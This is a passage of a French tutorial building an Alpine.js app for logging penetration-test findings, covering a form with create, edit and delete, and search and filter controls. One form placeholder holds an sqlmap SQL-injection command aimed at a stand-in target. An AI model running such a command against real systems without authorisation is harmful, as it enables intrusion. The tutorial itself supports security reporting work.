                    <!-- Titre dynamique -->
                </h2>
                <button @click="close()" 
                        class="text-gray-400 hover:text-gray-600 dark:hover:text-gray-300">
                    <svg class="w-6 h-6" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                        <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M6 18L18 6M6 6l12 12"></path>
                    </svg>
                </button>
            </div>
            
            <!-- Body -->
            <div class="px-6 py-4">
                <!-- Contenu dynamique -->
            </div>
            
            <!-- Footer -->
            <div class="sticky bottom-0 bg-gray-50 dark:bg-gray-900 px-6 py-4 flex justify-end space-x-3 border-t border-gray-200 dark:border-gray-700">
                <!-- Actions dynamiques -->
            </div>
            
        </div>
    </div>
</template>
```

### 2.3 Create - Ajouter Finding

**Mise à jour `pentestApp()` dans `app.js` :**

```javascript
Alpine.data('pentestApp', () => ({
    // État existant
    findings: Alpine.$persist([]).as('findings'),
    filters: { /* ... */ },
    
    // État formulaire
    form: { // (1)!
        id: null,
        title: '',
        severity: 'medium',
        status: 'open',
        category: 'misc',
        description: '',
        impact: '',
        reproduction: [''],
        remediation: '',
        proofOfConcept: '',
        references: [''],
        cvss: null,
        discoveredBy: '',
        tags: []
    },
    
    errors: {}, // (2)!
    editingId: null, // (3)!
    
    // Modals state
    modalAdd: false,
    
    // ... init(), stats existants
    
    /**
     * CRUD - Create
     */
    openAddModal() { // (4)!
        this.resetForm();
        this.editingId = null;
        this.modalAdd = true;
    },
    
    resetForm() {
        this.form = {
            id: null,
            title: '',
            severity: 'medium',
            status: 'open',
            category: 'misc',
            description: '',
            impact: '',
            reproduction: [''],
            remediation: '',
            proofOfConcept: '',
            references: [''],
            cvss: null,
            discoveredBy: '',
            tags: []
        };
        this.errors = {};
    },
    
    validateForm() { // (5)!
        this.errors = {};
        
        // Titre requis
        if (!this.form.title || this.form.title.trim().length < 3) {
            this.errors.title = 'Le titre doit contenir au moins 3 caractères';
        }
        
        if (this.form.title && this.form.title.length > 200) {
            this.errors.title = 'Le titre ne peut dépasser 200 caractères';
        }
        
        // Titre non générique
        const genericTitles = ['test', 'example', 'demo', 'sample'];
        const lowerTitle = this.form.title.toLowerCase();
        if (genericTitles.some(word => lowerTitle.includes(word))) {
            this.errors.title = 'Évitez les titres génériques (test, example, etc.)';
        }
        
        return Object.keys(this.errors).length === 0;
    },
    
    saveFinding() { // (6)!
        if (!this.validateForm()) {
            console.log('Validation échouée', this.errors);
            return;
        }
        
        const finding = {
            ...this.form,
            id: this.editingId || crypto.randomUUID(), // (7)!
            discoveredAt: new Date().toISOString(),
            // Nettoyer tableaux vides
            reproduction: this.form.reproduction.filter(s => s.trim()),
            references: this.form.references.filter(s => s.trim())
        };
        
        if (this.editingId) {
            // UPDATE
            const index = this.findings.findIndex(f => f.id === this.editingId);
            this.findings[index] = finding;
        } else {
            // CREATE
            this.findings.push(finding); // (8)!
        }
        
        this.modalAdd = false;
        this.resetForm();
        
        // Notification (optionnel)
        this.$dispatch('finding-saved', { finding }); // (9)!
    },
    
    /**
     * Gestion tableaux dynamiques (reproduction, references)
     */
    addReproductionStep() {
        this.form.reproduction.push('');
    },
    
    removeReproductionStep(index) {
        this.form.reproduction.splice(index, 1);
    },
    
    addReference() {
        this.form.references.push('');
    },
    
    removeReference(index) {
        this.form.references.splice(index, 1);
    }
}));
```

1. **État form** : Objet contenant toutes les données du formulaire
2. **Erreurs validation** : Objet clé-valeur pour messages d'erreur
3. **Mode édition** : Si `editingId` non null, on édite au lieu de créer
4. **Open modal** : Reset form + ouvrir modal
5. **Validation** : Retourne `true` si formulaire valide
6. **Save** : Crée ou met à jour le finding
7. **UUID** : Génère ID unique avec `crypto.randomUUID()` (API Web moderne)
8. **Push réactif** : `.push()` déclenche mise à jour Alpine + Persist
9. **Custom event** : Émet événement pour autres composants

**Template Modal Ajout :**

```html
<!-- Dans index.html, après le header -->
<div x-data="{ get isOpen() { return $data.modalAdd }, close() { $data.modalAdd = false } }">
    <template x-if="isOpen">
        <div class="fixed inset-0 z-50 flex items-center justify-center p-4"
             x-transition>
            
            <!-- Backdrop -->
            <div @click="close()" class="absolute inset-0 bg-black bg-opacity-50"></div>
            
            <!-- Modal -->
            <div @click.stop 
                 x-trap="isOpen"
                 class="relative bg-white dark:bg-gray-800 rounded-lg shadow-xl max-w-4xl w-full max-h-[90vh] overflow-y-auto">
                
                <!-- Header -->
                <div class="sticky top-0 bg-white dark:bg-gray-800 border-b px-6 py-4 flex items-center justify-between">
                    <h2 class="text-xl font-semibold" x-text="editingId ? 'Modifier la Vulnérabilité' : 'Nouvelle Vulnérabilité'"></h2>
                    <button @click="close()">
                        <svg class="w-6 h-6" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M6 18L18 6M6 6l12 12"></path>
                        </svg>
                    </button>
                </div>
                
                <!-- Form -->
                <form @submit.prevent="saveFinding()" class="px-6 py-4 space-y-6"> <!--(1)!-->
                    
                    <!-- Titre -->
                    <div>
                        <label class="block text-sm font-medium mb-2">
                            Titre <span class="text-red-500">*</span>
                        </label>
                        <input type="text" 
                               x-model="form.title"
                               @input="validateForm()" <!--(2)!-->
                               class="w-full px-4 py-2 border rounded-lg focus:ring-2 focus:ring-blue-500"
                               :class="{ 'border-red-500': errors.title }"
                               placeholder="Ex: SQL Injection dans formulaire de connexion">
                        <p x-show="errors.title" 
                           x-text="errors.title" 
                           class="text-red-500 text-sm mt-1"></p>
                    </div>
                    
                    <!-- Sévérité & Statut (ligne) -->
                    <div class="grid grid-cols-2 gap-4">
                        <div>
                            <label class="block text-sm font-medium mb-2">Sévérité</label>
                            <select x-model="form.severity" 
                                    class="w-full px-4 py-2 border rounded-lg">
                                <option value="critical">🔴 Critical</option>
                                <option value="high">🟠 High</option>
                                <option value="medium">🟡 Medium</option>
                                <option value="low">🟢 Low</option>
                                <option value="info">🔵 Info</option>
                            </select>
                        </div>
                        <div>
                            <label class="block text-sm font-medium mb-2">Statut</label>
                            <select x-model="form.status" 
                                    class="w-full px-4 py-2 border rounded-lg">
                                <option value="open">Ouverte</option>
                                <option value="confirmed">Confirmée</option>
                                <option value="remediated">Corrigée</option>
                                <option value="false-positive">Faux Positif</option>
                            </select>
                        </div>
                    </div>
                    
                    <!-- Catégorie & Découvreur -->
                    <div class="grid grid-cols-2 gap-4">
                        <div>
                            <label class="block text-sm font-medium mb-2">Catégorie</label>
                            <select x-model="form.category" 
                                    class="w-full px-4 py-2 border rounded-lg">
                                <option value="injection">Injection (SQL, NoSQL, LDAP...)</option>
                                <option value="xss">Cross-Site Scripting (XSS)</option>
                                <option value="auth">Broken Authentication</option>
                                <option value="crypto">Cryptographic Failures</option>
                                <option value="access-control">Broken Access Control</option>
                                <option value="config">Security Misconfiguration</option>
                                <option value="misc">Autres</option>
                            </select>
                        </div>
                        <div>
                            <label class="block text-sm font-medium mb-2">Découvert par</label>
                            <input type="text" 
                                   x-model="form.discoveredBy"
                                   class="w-full px-4 py-2 border rounded-lg"
                                   placeholder="Nom du pentester">
                        </div>
                    </div>
                    
                    <!-- Description -->
                    <div>
                        <label class="block text-sm font-medium mb-2">Description</label>
                        <textarea x-model="form.description"
                                  rows="4"
                                  class="w-full px-4 py-2 border rounded-lg"
                                  placeholder="Description technique détaillée de la vulnérabilité..."></textarea>
                    </div>
                    
                    <!-- Impact -->
                    <div>
                        <label class="block text-sm font-medium mb-2">Impact</label>
                        <textarea x-model="form.impact"
                                  rows="3"
                                  class="w-full px-4 py-2 border rounded-lg"
                                  placeholder="Conséquences potentielles de l'exploitation..."></textarea>
                    </div>
                    
                    <!-- Étapes de Reproduction -->
                    <div>
                        <label class="block text-sm font-medium mb-2">
                            Étapes de Reproduction
                            <button type="button"
                                    @click="addReproductionStep()"
                                    class="ml-2 text-blue-600 hover:text-blue-700 text-xs">
                                + Ajouter étape
                            </button>
                        </label>
                        <div class="space-y-2">
                            <template x-for="(step, index) in form.reproduction" :key="index"> <!--(3)!-->
                                <div class="flex items-start gap-2">
                                    <span class="text-gray-500 text-sm mt-2" x-text="`${index + 1}.`"></span>
                                    <input type="text"
                                           x-model="form.reproduction[index]"
                                           class="flex-1 px-4 py-2 border rounded-lg"
                                           :placeholder="`Étape ${index + 1}`">
                                    <button type="button"
                                            @click="removeReproductionStep(index)"
                                            x-show="form.reproduction.length > 1"
                                            class="text-red-500 hover:text-red-700 p-2">
                                        <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                                            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M6 18L18 6M6 6l12 12"></path>
                                        </svg>
                                    </button>
                                </div>
                            </template>
                        </div>
                    </div>
                    
                    <!-- Remédiation -->
                    <div>
                        <label class="block text-sm font-medium mb-2">Remédiation</label>
                        <textarea x-model="form.remediation"
                                  rows="3"
                                  class="w-full px-4 py-2 border rounded-lg"
                                  placeholder="Recommandations pour corriger la vulnérabilité..."></textarea>
                    </div>
                    
                    <!-- Proof of Concept -->
                    <div>
                        <label class="block text-sm font-medium mb-2">Preuve de Concept (Code/Commande)</label>
                        <textarea x-model="form.proofOfConcept"
                                  rows="4"
                                  class="w-full px-4 py-2 border rounded-lg font-mono text-sm"
                                  placeholder="sqlmap -u 'http://target.com/login' --risk=3"></textarea>
                    </div>
                    
                    <!-- Références -->
                    <div>
                        <label class="block text-sm font-medium mb-2">
                            Références (OWASP, CWE, CVE...)
                            <button type="button"
                                    @click="addReference()"
                                    class="ml-2 text-blue-600 hover:text-blue-700 text-xs">
                                + Ajouter référence
                            </button>
                        </label>
                        <div class="space-y-2">
                            <template x-for="(ref, index) in form.references" :key="index">
                                <div class="flex items-center gap-2">
                                    <input type="text"
                                           x-model="form.references[index]"
                                           class="flex-1 px-4 py-2 border rounded-lg"
                                           placeholder="Ex: OWASP Top 10 2021: A03 Injection">
                                    <button type="button"
                                            @click="removeReference(index)"
                                            x-show="form.references.length > 1"
                                            class="text-red-500 hover:text-red-700 p-2">
                                        <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                                            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M6 18L18 6M6 6l12 12"></path>
                                        </svg>
                                    </button>
                                </div>
                            </template>
                        </div>
                    </div>
                    
                    <!-- Footer Actions -->
                    <div class="sticky bottom-0 bg-gray-50 dark:bg-gray-900 -mx-6 px-6 py-4 flex justify-end space-x-3 border-t">
                        <button type="button"
                                @click="close()"
                                class="px-6 py-2 border border-gray-300 rounded-lg hover:bg-gray-50">
                            Annuler
                        </button>
                        <button type="submit"
                                class="px-6 py-2 bg-blue-600 text-white rounded-lg hover:bg-blue-700 disabled:opacity-50"
                                :disabled="Object.keys(errors).length > 0">
                            <span x-text="editingId ? 'Enregistrer' : 'Ajouter'"></span>
                        </button>
                    </div>
                    
                </form>
                
            </div>
        </div>
    </template>
</div>
```

1. **@submit.prevent** : Empêche rechargement page, appelle `saveFinding()`
2. **Validation temps réel** : Valide à chaque frappe
3. **x-for dynamique** : Tableau éditable avec ajout/suppression

**Bouton d'ajout (dans main) :**

```html
<main class="container mx-auto px-4 py-8">
    
    <!-- Actions principales -->
    <div class="mb-6 flex items-center justify-between">
        <h2 class="text-2xl font-bold text-gray-900 dark:text-white">
            Vulnérabilités Découvertes
        </h2>
        <button @click="openAddModal()" 
                class="flex items-center gap-2 px-6 py-3 bg-blue-600 text-white rounded-lg hover:bg-blue-700 transition">
            <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M12 4v16m8-8H4"></path>
            </svg>
            Nouvelle Vulnérabilité
        </button>
    </div>
    
</main>
```

### 2.4 Read - Afficher Findings

**Liste des findings avec cards :**

```html
<!-- Dans main, après les actions -->
<div class="grid gap-6 md:grid-cols-2 lg:grid-cols-3">
    <template x-for="finding in findings" :key="finding.id"> <!--(1)!-->
        <div class="bg-white dark:bg-gray-800 rounded-lg shadow-sm border border-gray-200 dark:border-gray-700 p-6 hover:shadow-md transition animate-fadeIn"> <!--(2)!-->
            
            <!-- Header -->
            <div class="flex items-start justify-between mb-4">
                <!-- Badge sévérité -->
                <span class="px-3 py-1 rounded-full text-xs font-semibold"
                      :class="{
                          'badge-critical': finding.severity === 'critical',
                          'badge-high': finding.severity === 'high',
                          'badge-medium': finding.severity === 'medium',
                          'badge-low': finding.severity === 'low',
                          'badge-info': finding.severity === 'info'
                      }"
                      x-text="finding.severity.toUpperCase()"></span>
                
                <!-- Actions -->
                <div class="flex gap-2">
                    <button @click="editFinding(finding)" <!--(3)!-->
                            class="text-blue-600 hover:text-blue-700">
                        <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M11 5H6a2 2 0 00-2 2v11a2 2 0 002 2h11a2 2 0 002-2v-5m-1.414-9.414a2 2 0 112.828 2.828L11.828 15H9v-2.828l8.586-8.586z"></path>
                        </svg>
                    </button>
                    <button @click="deleteFinding(finding.id)"
                            class="text-red-600 hover:text-red-700">
                        <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M19 7l-.867 12.142A2 2 0 0116.138 21H7.862a2 2 0 01-1.995-1.858L5 7m5 4v6m4-6v6m1-10V4a1 1 0 00-1-1h-4a1 1 0 00-1 1v3M4 7h16"></path>
                        </svg>
                    </button>
                </div>
            </div>
            
            <!-- Titre -->
            <h3 class="text-lg font-semibold text-gray-900 dark:text-white mb-2 line-clamp-2" <!--(4)!-->
                x-text="finding.title"></h3>
            
            <!-- Catégorie & Statut -->
            <div class="flex items-center gap-3 text-sm text-gray-600 dark:text-gray-400 mb-3">
                <span x-text="finding.category"></span>
                <span class="w-1 h-1 bg-gray-400 rounded-full"></span>
                <span :class="{
                    'text-red-600': finding.status === 'open',
                    'text-orange-600': finding.status === 'confirmed',
                    'text-green-600': finding.status === 'remediated',
                    'text-gray-600': finding.status === 'false-positive'
                }" x-text="finding.status"></span>
            </div>
            
            <!-- Description preview -->
            <p class="text-sm text-gray-600 dark:text-gray-400 line-clamp-3 mb-4" <!--(5)!-->
               x-text="finding.description || 'Aucune description'"></p>
            
            <!-- CVSS Score -->
            <div x-show="finding.cvss" class="flex items-center gap-2 text-sm">
                <span class="text-gray-600 dark:text-gray-400">CVSS:</span>
                <span class="font-semibold"
                      :class="{
                          'text-critical': finding.cvss?.score >= 9.0,
                          'text-high': finding.cvss?.score >= 7.0 && finding.cvss?.score < 9.0,
                          'text-medium': finding.cvss?.score >= 4.0 && finding.cvss?.score < 7.0,
                          'text-low': finding.cvss?.score < 4.0
                      }"
                      x-text="finding.cvss?.score.toFixed(1)"></span>
                <span class="text-xs text-gray-500" x-text="`(${finding.cvss?.rating})`"></span>
            </div>
            
            <!-- Date -->
            <div class="mt-4 pt-4 border-t border-gray-200 dark:border-gray-700 text-xs text-gray-500">
                Découverte le <span x-text="new Date(finding.discoveredAt).toLocaleDateString('fr-FR')"></span>
            </div>
            
        </div>
    </template>
    
    <!-- État vide -->
    <div x-show="findings.length === 0" 
         class="col-span-full text-center py-12">
        <svg class="w-16 h-16 mx-auto text-gray-400 mb-4" fill="none" stroke="currentColor" viewBox="0 0 24 24">
            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M9 12h6m-6 4h6m2 5H7a2 2 0 01-2-2V5a2 2 0 012-2h5.586a1 1 0 01.707.293l5.414 5.414a1 1 0 01.293.707V19a2 2 0 01-2 2z"></path>
        </svg>
        <p class="text-gray-600 dark:text-gray-400 mb-4">Aucune vulnérabilité enregistrée</p>
        <button @click="openAddModal()" 
                class="px-6 py-2 bg-blue-600 text-white rounded-lg hover:bg-blue-700">
            Créer la première
        </button>
    </div>
</div>
```

1. **x-for** : Itère sur `findings[]`, `:key` obligatoire pour performance
2. **animate-fadeIn** : Animation CSS définie dans main.css
3. **Actions** : Éditer et supprimer (méthodes à implémenter)
4. **line-clamp-2** : Tailwind truncate après 2 lignes
5. **line-clamp-3** : Tailwind truncate après 3 lignes

### 2.5 Update - Modifier Finding

**Méthode `editFinding()` dans `app.js` :**

```javascript
// Dans pentestApp()
editFinding(finding) {
    // Cloner le finding pour édition
    this.form = {
        ...finding,
        reproduction: [...(finding.reproduction || [''])],
        references: [...(finding.references || [''])],
        tags: [...(finding.tags || [])]
    };
    
    this.editingId = finding.id;
    this.modalAdd = true;
},
```

!!! info "Clonage profond"
    On clone les tableaux avec spread operator `[...]` pour éviter de modifier l'original pendant l'édition.

### 2.6 Delete - Supprimer Finding

**Méthode `deleteFinding()` dans `app.js` :**

```javascript
// Dans pentestApp()
deleteFinding(id) {
    if (!confirm('Supprimer définitivement cette vulnérabilité ?')) {
        return;
    }
    
    const index = this.findings.findIndex(f => f.id === id); // (1)!
    
    if (index !== -1) {
        this.findings.splice(index, 1); // (2)!
        console.log(`Finding ${id} supprimé`);
    }
},
```

1. **findIndex()** : Trouve l'index du finding avec cet ID
2. **splice()** : Supprime 1 élément à cet index, déclenche réactivité Alpine

### 2.7 Exercice Pratique Phase 2

!!! question "Mission : Ajouter Compteur de Caractères"
    Ajoutez un compteur de caractères en temps réel sous le champ "Titre" affichant "X/200 caractères".
    
    **Objectifs :**
    - Afficher compteur dynamique
    - Couleur rouge si > 200
    - Couleur orange si > 180
    
    **Indices :**
    1. Utiliser `x-text` avec `form.title.length`
    2. Utiliser `:class` pour couleurs conditionnelles

??? success "Solution"
    ```html
    <!-- Après l'input titre -->
    <div class="text-right text-sm"
         :class="{
             'text-red-600': form.title.length > 200,
             'text-orange-600': form.title.length > 180 && form.title.length <= 200,
             'text-gray-500': form.title.length <= 180
         }">
        <span x-text="form.title.length"></span>/200 caractères
    </div>
    ```

### Points Clés à Retenir Phase 2

- 🔑 **Modal réutilisable** : Composant `modal()` avec `x-trap` pour accessibilité
- 🔑 **Formulaire complexe** : `x-model` sur tous types (input, textarea, select)
- 🔑 **Validation temps réel** : `@input="validateForm()"` pour feedback immédiat
- 🔑 **Tableaux dynamiques** : `x-for` avec méthodes `push()` / `splice()`
- 🔑 **CRUD complet** : Create, Read, Update, Delete implémentés
- 🔑 **État édition** : `editingId` pour différencier Create vs Update
- 🔑 **Persistence auto** : `$persist()` sauvegarde à chaque modification

### Checkpoint Phase 2

Vérifiez que vous pouvez :

- ✅ Ouvrir modal "Ajouter" avec formulaire vide
- ✅ Remplir formulaire et créer un finding
- ✅ Voir finding affiché dans la grille
- ✅ Cliquer "Éditer" → Modal se remplit avec données existantes
- ✅ Modifier et sauvegarder → Finding mis à jour
- ✅ Supprimer un finding après confirmation
- ✅ Recharger page → Findings persistent (LocalStorage)

### Prochaine Étape

Dans la Phase 3, nous allons implémenter les **filtres avancés** et la **recherche fulltext** pour organiser efficacement les vulnérabilités.

---

## Phase 3 : Filtres & Recherche (1h45)

<div class="omny-meta" data-level="🟡 Intermédiaire" data-time="1h45"></div>

### Objectifs Phase 3

À la fin de cette phase, vous saurez :

- ✅ Implémenter une recherche fulltext avec debounce
- ✅ Créer des filtres multiples combinables (sévérité, statut, catégorie)
- ✅ Utiliser computed properties pour filtrage réactif
- ✅ Afficher des compteurs dynamiques de résultats
- ✅ Gérer l'état "Aucun résultat"

### 3.1 Architecture Filtres



### 3.2 État Filtres

**Mise à jour `pentestApp()` dans `app.js` :**

```javascript
Alpine.data('pentestApp', () => ({
    // État existant
    findings: Alpine.$persist([]).as('findings'),
    
    // État filtres
    filters: {
        search: '', // (1)!
        severity: [], // (2)!
        status: [],
        category: []
    },
    
    // ... reste du code
    
    /**
     * Computed Property - Findings Filtrés
     * Recalculé automatiquement quand findings ou filters changent
     */
    get filteredFindings() { // (3)!
        let results = this.findings;
        
        // Filtre recherche fulltext
        if (this.filters.search) {
            const query = this.filters.search.toLowerCase();
            results = results.filter(finding => 
                finding.title.toLowerCase().includes(query) ||
                (finding.description && finding.description.toLowerCase().includes(query)) ||
                (finding.category && finding.category.toLowerCase().includes(query))
            );
        }
        
        // Filtre sévérité (tableau)
        if (this.filters.severity.length > 0) {
            results = results.filter(finding => 
                this.filters.severity.includes(finding.severity)
            );
        }
        
        // Filtre statut
        if (this.filters.status.length > 0) {
            results = results.filter(finding => 
                this.filters.status.includes(finding.status)
            );
        }
        
        // Filtre catégorie
        if (this.filters.category.length > 0) {
            results = results.filter(finding => 
                this.filters.category.includes(finding.category)
            );
        }
        
        return results;
    },
    
    /**
     * Computed Property - Compteurs par sévérité
     * Pour afficher badges avec compteurs dans filtres
     */
    get severityCounts() { // (4)!
        return {
            critical: this.findings.filter(f => f.severity === 'critical').length,
            high: this.findings.filter(f => f.severity === 'high').length,
            medium: this.findings.filter(f => f.severity === 'medium').length,
            low: this.findings.filter(f => f.severity === 'low').length,
            info: this.findings.filter(f => f.severity === 'info').length
        };
    },
    
    /**
     * Reset filtres
     */
    resetFilters() {
        this.filters = {
            search: '',
            severity: [],
            status: [],
            category: []
        };
    },
    
    /**
     * Vérifier si filtres actifs
     */
    get hasActiveFilters() { // (5)!
        return this.filters.search !== '' ||
               this.filters.severity.length > 0 ||
               this.filters.status.length > 0 ||
               this.filters.category.length > 0;
    }
}));
```

1. **filters.search** : String pour recherche fulltext
2. **filters.severity** : Tableau pour filtres multiples (ex: ['critical', 'high'])
3. **filteredFindings** : Computed property appliquant tous les filtres séquentiellement
4. **severityCounts** : Compte findings par sévérité (total, pas filtrés)
5. **hasActiveFilters** : Booléen pour afficher bouton "Reset"

### 3.3 Interface Filtres

**Sidebar filtres (à ajouter dans `index.html`) :**

```html
<!-- Après header, avant main -->
<div class="container mx-auto px-4 py-6">
    <div class="grid grid-cols-1 lg:grid-cols-4 gap-6">
        
        <!-- SIDEBAR FILTRES -->
        <aside class="lg:col-span-1 space-y-6">
            
            <!-- Header Filtres -->
            <div class="flex items-center justify-between">
                <h3 class="text-lg font-semibold text-gray-900 dark:text-white">Filtres</h3>
                <button @click="resetFilters()" 
                        x-show="hasActiveFilters" <!--(1)!-->
                        x-transition
                        class="text-sm text-blue-600 hover:text-blue-700">
                    Réinitialiser
                </button>
            </div>
            
            <!-- Recherche -->
            <div>
                <label class="block text-sm font-medium mb-2 text-gray-700 dark:text-gray-300">
                    Recherche
                </label>
                <div class="relative">
                    <input type="text" 
                           x-model.debounce.300ms="filters.search" <!--(2)!-->
                           placeholder="Titre, description..."
                           class="w-full pl-10 pr-4 py-2 border border-gray-300 dark:border-gray-600 rounded-lg bg-white dark:bg-gray-700">
                    <svg class="absolute left-3 top-2.5 w-5 h-5 text-gray-400" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                        <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M21 21l-6-6m2-5a7 7 0 11-14 0 7 7 0 0114 0z"></path>
                    </svg>
                </div>
            </div>
            
            <!-- Filtre Sévérité -->
            <div class="bg-white dark:bg-gray-800 rounded-lg border border-gray-200 dark:border-gray-700 p-4">
                <h4 class="font-medium mb-3 text-gray-900 dark:text-white">Sévérité</h4>
                <div class="space-y-2">
                    <template x-for="severity in ['critical', 'high', 'medium', 'low', 'info']" :key="severity">
                        <label class="flex items-center justify-between cursor-pointer">
                            <div class="flex items-center gap-2">
                                <input type="checkbox" 
                                       :value="severity"
                                       x-model="filters.severity" <!--(3)!-->
                                       class="rounded border-gray-300 text-blue-600 focus:ring-blue-500">
                                <span class="text-sm capitalize"
                                      :class="{
                                          'text-critical font-semibold': severity === 'critical',
                                          'text-high font-semibold': severity === 'high',
                                          'text-medium font-semibold': severity === 'medium',
                                          'text-low font-semibold': severity === 'low',
                                          'text-info font-semibold': severity === 'info'
                                      }"
                                      x-text="severity"></span>
                            </div>
                            <span class="text-xs text-gray-500 bg-gray-100 dark:bg-gray-700 px-2 py-1 rounded-full"
                                  x-text="severityCounts[severity]"></span> <!--(4)!-->
                        </label>
                    </template>
                </div>
            </div>
            
            <!-- Filtre Statut -->
            <div class="bg-white dark:bg-gray-800 rounded-lg border border-gray-200 dark:border-gray-700 p-4">
                <h4 class="font-medium mb-3 text-gray-900 dark:text-white">Statut</h4>
                <div class="space-y-2">
                    <template x-for="status in ['open', 'confirmed', 'remediated', 'false-positive']" :key="status">
                        <label class="flex items-center gap-2 cursor-pointer">
                            <input type="checkbox" 
                                   :value="status"
                                   x-model="filters.status"
                                   class="rounded border-gray-300 text-blue-600 focus:ring-blue-500">
                            <span class="text-sm"
                                  :class="{
                                      'text-red-600': status === 'open',
                                      'text-orange-600': status === 'confirmed',
                                      'text-green-600': status === 'remediated',
                                      'text-gray-600': status === 'false-positive'
                                  }"
                                  x-text="status === 'false-positive' ? 'Faux positif' : status"></span>
                        </label>
                    </template>
                </div>
            </div>
            
            <!-- Filtre Catégorie -->
            <div class="bg-white dark:bg-gray-800 rounded-lg border border-gray-200 dark:border-gray-700 p-4">
                <h4 class="font-medium mb-3 text-gray-900 dark:text-white">Catégorie</h4>
                <div class="space-y-2">
                    <template x-for="cat in ['injection', 'xss', 'auth', 'crypto', 'access-control', 'config', 'misc']" :key="cat">
                        <label class="flex items-center gap-2 cursor-pointer">
                            <input type="checkbox" 
                                   :value="cat"
                                   x-model="filters.category"
                                   class="rounded border-gray-300 text-blue-600 focus:ring-blue-500">
                            <span class="text-sm capitalize" x-text="cat"></span>
                        </label>
                    </template>
                </div>
            </div>
            
        </aside>
        
        <!-- MAIN CONTENT AREA -->
        <main class="lg:col-span-3">
            
            <!-- Stats & Actions -->
            <div class="mb-6 flex items-center justify-between">
                <div class="text-sm text-gray-600 dark:text-gray-400">
                    <span class="font-semibold text-gray-900 dark:text-white" 
                          x-text="filteredFindings.length"></span> <!--(5)!-->
                    <span x-text="filteredFindings.length > 1 ? 'vulnérabilités trouvées' : 'vulnérabilité trouvée'"></span>
                    <span x-show="hasActiveFilters" class="text-xs">
                        (sur <span x-text="findings.length"></span> au total)
                    </span>
                </div>
                
                <button @click="openAddModal()" 
                        class="flex items-center gap-2 px-6 py-3 bg-blue-600 text-white rounded-lg hover:bg-blue-700 transition">
                    <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                        <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M12 4v16m8-8H4"></path>
                    </svg>
                    Nouvelle Vulnérabilité
                </button>
            </div>
            
            <!-- Grid Findings (REMPLACER le x-for existant) -->
            <div class="grid gap-6 md:grid-cols-2">
                <template x-for="finding in filteredFindings" :key="finding.id"> <!--(6)!-->
                    <!-- Card finding (code existant Phase 2) -->
                </template>
                
                <!-- État "Aucun résultat" -->
                <div x-show="filteredFindings.length === 0 && findings.length > 0" <!--(7)!-->
                     class="col-span-full text-center py-12">
                    <svg class="w-16 h-16 mx-auto text-gray-400 mb-4" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                        <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M21 21l-6-6m2-5a7 7 0 11-14 0 7 7 0 0114 0z"></path>
                    </svg>
                    <p class="text-gray-600 dark:text-gray-400 mb-2">Aucune vulnérabilité ne correspond aux filtres</p>
                    <button @click="resetFilters()" 
                            class="text-blue-600 hover:text-blue-700 text-sm">
                        Réinitialiser les filtres
                    </button>
                </div>
                
                <!-- État "Vraiment vide" -->
                <div x-show="findings.length === 0" 
                     class="col-span-full text-center py-12">
                    <svg class="w-16 h-16 mx-auto text-gray-400 mb-4" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                        <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M9 12h6m-6 4h6m2 5H7a2 2 0 01-2-2V5a2 2 0 012-2h5.586a1 1 0 01.707.293l5.414 5.414a1 1 0 01.293.707V19a2 2 0 01-2 2z"></path>
                    </svg>
                    <p class="text-gray-600 dark:text-gray-400 mb-4">Aucune vulnérabilité enregistrée</p>
                    <button @click="openAddModal()" 
                            class="px-6 py-2 bg-blue-600 text-white rounded-lg hover:bg-blue-700">
                        Créer la première
                    </button>
                </div>
            </div>
            
        </main>
        
    </div>
</div>
```

1. **x-show conditionnel** : Bouton visible uniquement si filtres actifs
2. **Debounce 300ms** : Attend 300ms après dernière frappe avant de filtrer (performance)
3. **x-model tableau** : Checkboxes ajoutent/retirent valeurs du tableau `filters.severity`
4. **Compteur dynamique** : Affiche nombre total par sévérité (indépendant filtres)
5. **Compteur filtré** : Affiche nombre de résultats après filtrage
6. **Utiliser filteredFindings** : Remplacer `findings` par `filteredFindings`
7. **État "Aucun résultat"** : Condition différente de "vraiment vide"

### 3.4 Optimisations Performance

**Debounce personnalisé (si besoin contrôle avancé) :**

```javascript
// Dans pentestApp()
init() {
    // ... code existant
    
    // Watcher sur search avec debounce custom
    let searchTimeout;
    this.$watch('filters.search', value => {
        clearTimeout(searchTimeout);
        searchTimeout = setTimeout(() => {
            console.log('Recherche:', value);
            // Logique additionnelle si nécessaire
        }, 300);
    });
},
```

!!! tip "x-model.debounce vs Watcher"
    - **`x-model.debounce.300ms`** : Simple, recommandé pour la plupart des cas
    - **Watcher manuel** : Si besoin logique additionnelle (analytics, API call)

### 3.5 Exercice Pratique Phase 3

!!! question "Mission : Ajouter Tri par Date"
    Ajoutez un dropdown permettant de trier les findings par date de découverte (récent → ancien ou inverse).
    
    **Objectifs :**
    - Select avec options "Plus récent" et "Plus ancien"
    - Modifier `filteredFindings` pour appliquer le tri
    - Persister choix de tri
    
    **Indices :**
    1. Ajouter `filters.sortBy = 'newest'` dans état
    2. Utiliser `.sort()` dans `filteredFindings`
    3. Comparer `discoveredAt` (timestamps ISO)

??? success "Solution"
    ```javascript
    // Dans pentestApp()
    filters: {
        // ... filtres existants
        sortBy: 'newest' // ou 'oldest'
    },
    
